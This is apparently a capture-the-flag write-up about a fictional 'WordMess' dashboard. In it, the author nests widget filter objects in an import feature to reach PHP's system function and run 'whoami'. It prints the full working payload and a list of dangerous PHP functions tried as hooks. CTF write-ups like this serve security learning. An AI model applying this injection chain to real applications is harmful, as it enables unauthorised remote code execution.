

Weekly challenge.
Hint: *Gadgets inside of gadgets.*

After creating an account, and going to dashboard there is a functionality in the *Profile* tab, when I can *Import* my own dashboard widget.
The default widget looks like this:
```
s:{"widgets":[{"__wm_type":"WM_Widget","title":"At a Glance","content":"Welcome to your WordMess dashboard."},{"__wm_type":"WM_Filter","title":"Tidy Tip","hook":"wptexturize","input":"Use \"smart quotes\" -- they read nicer..."},{"__wm_type":"WM_Filter","title":"Featured","hook":"make_clickable","input":{"__wm_type":"WM_Widget","title":"inner","content":"Docs: https://wordmess.test"}}]}
```
And it has a `hook` and `input` property that can be another widget. The hint gives a clue that widget must be nested in order to work.
I tried to enumerate available hooks with common PHP function:
- `phpinfo`
- `system`
- `exec`
- `file_get_contents`
- `readfile`
- `print_r`
- `shell_exec`
- `passthru`
- `popen`
but all of them were initially blocked.
I changed a payload, so the input of first hook - `wptexturize`, is the second hook, which will execute php function and read the files from the server, achieving *Remote Code Execution*.
```
s:{"widgets":[{"__wm_type":"WM_Widget","title":"At a Glance","content":"Welcome to your WordMess dashboard."},{"__wm_type":"WM_Filter","title":"Tidy Tip","hook":"wptexturize","input":{"__wm_type":"WM_Filter","title":"Featured","hook":"system","input":"whoami"}}]}
```

I put the above payload inside *Import* functionality, saved it, and it went through. I went back to dashboard and at the bottom I saw a flag.

